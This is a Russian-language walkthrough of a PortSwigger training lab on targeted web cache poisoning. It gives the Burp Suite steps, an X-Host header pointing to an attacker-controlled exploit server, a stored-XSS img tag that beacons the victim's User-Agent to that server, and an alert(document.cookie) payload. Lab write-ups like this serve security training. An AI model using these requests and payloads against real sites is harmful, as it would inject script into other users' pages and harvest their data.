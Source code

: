Перейдем на уязвимый ресурс

Откроем `Proxy` -> `HTTP history` и найдем запрос 
```
GET / 
```
и обязательно тот, где есть поле` Upgrade-Insecure-Requests: 1`   !!!
и отправим его в `Repeater`

Так же приметим 
```
GET /resources/js/tracking.js
```
его тоже отправим в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/1.png)

Далее воспользуемся расширением `Param miner `
Снова нажимем `ПКМ` -> `Extensions` -> `Param miner` ->` Guess Headers` и попробуем найти уязвимые заголовки, которые нам могут помочь
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/2.png)

Спустя время в `Target` -> `issues` увидим, что мы нашли уязвимый заголовок - `x-host`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/3.png)


Вернемся в Repeater и добавм данный заголовок к нашему запросу
```
x-host:example.com
```

И видим, что при добавлении X-Host: example.com у нас появляется редирект на `example.com `

а так же заголовок
```
Vary: User-Agent
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/4.png)

тлично, перейдем в `Exploit server`

Создадим файл `/resources/js/tracking.js`
в котором будет прописано `alert(document.cookie)` и нажмем `Store`

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/5.png)

А в поле `X-host` вставим URL exploit server'a
```
exploit-0adf006a04c68cce817a656f01f700f7.exploit-server.net
```
и отравим данный запрос
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/6.png)

Далее вернемся на корневую страницу в браузере и зайдем в случайный блог и напишем следующий комментарий, который по сути является stored XSS
```
<img src="https://exploit-0adf006a04c68cce817a656f01f700f7.exploit-server.net/test" />
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/7.png)

Далее перейдем в Access log и увидим 404 Ошибку 
```
10.0.4.140      2024-06-16 14:22:09 +0000 "GET /test HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
что не совпадает юзерагент

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/8.png)

Исправим и скопипастим юзерагент в наш запрос в Repeater
```
GET / 
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36

X-Host: exploit-0adf006a04c68cce817a656f01f700f7.exploit-server.net
```
отправим запрос и получим уведомление об успешной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/23.%20Web%20cache%20poisoning/4.%20Targeted%20web%20cache%20poisoning%20using%20an%20unknown%20header/pics%20for%20walkthrough/9.png)

